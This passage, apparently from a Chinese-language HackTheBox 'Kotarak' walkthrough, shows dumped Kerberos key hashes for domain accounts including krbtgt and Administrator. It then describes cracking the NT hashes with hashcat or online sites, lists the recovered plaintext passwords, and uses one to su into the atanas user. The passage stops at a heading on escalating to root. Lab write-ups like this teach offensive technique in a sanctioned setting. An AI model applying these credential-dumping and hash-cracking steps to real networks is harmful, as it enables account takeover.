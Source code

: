 ```bash
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
Administrator:des-cbc-md5:75375eda54757c2f
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
WINXP1$:des-cbc-md5:984a40d5f4a815f2
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up...

```

接着将`:::`符号前面的最后一段hash取出，通过`hashcat`或一些在线hash破解的网站，如

[https://crackstation.net/](https://crackstation.net/ "https://crackstation.net/")和[https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash "https://hashes.com/en/decrypt/hash")

查出`atanas`用户的明文密码为`Password123!`，`Administrator`密码为`f16tomcat!`

![](HTB之Kotarak/image_tmnztcASxP.png)

尝试用这两个密码ssh登录`atanas`用户失败，应该是这账号被禁止ssh登录了，尝试用`tomcat`用户su到`atanas`，密码为`f16tomcat!`，登录成功

![](HTB之Kotarak/image_Bx-FFN9-lb.png)

# 提权至root

## 10.0.3.133
